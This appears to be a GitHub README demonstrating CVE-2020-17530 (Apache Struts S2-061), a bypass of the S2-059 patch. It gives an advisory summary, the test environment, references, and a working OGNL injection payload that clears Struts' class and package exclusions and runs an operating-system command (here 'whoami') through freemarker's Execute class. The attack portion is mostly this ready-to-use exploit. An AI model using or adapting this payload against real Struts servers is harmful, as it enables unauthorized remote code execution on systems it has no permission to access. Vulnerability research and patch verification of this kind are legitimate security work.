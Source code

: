 # S2-061 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution vulnerability                 |
| Maximum security rating | Important                                                    |
| Recommendation          | Upgrade to [Struts 2.5.26](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26) or greater |
| Affected Software       | Struts 2.0.0 - Struts 2.5.25                                 |
| Reporters               | Alvaro Munoz - pwntester at github dot comMasato Anzai of Aeye Security Lab, inc. |
| CVE Identifier          | CVE-2020-17530                                               |

## Problem

S2-061是对S2-059补丁的绕过。

## Environment

| Struts2 Version | Struts-2.5.25          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

命令执行：

```java
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}
```

![](img/AE154B9A-281D-4085-83F9-0A2D55B3016E.png)

## Reference

- [S2-061](https://cwiki.apache.org/confluence/display/WW/S2-061)
- [Struts2 s2-061 Poc分析](https://mp.weixin.qq.com/s/skV6BsARvie33vV2R6SZKw)
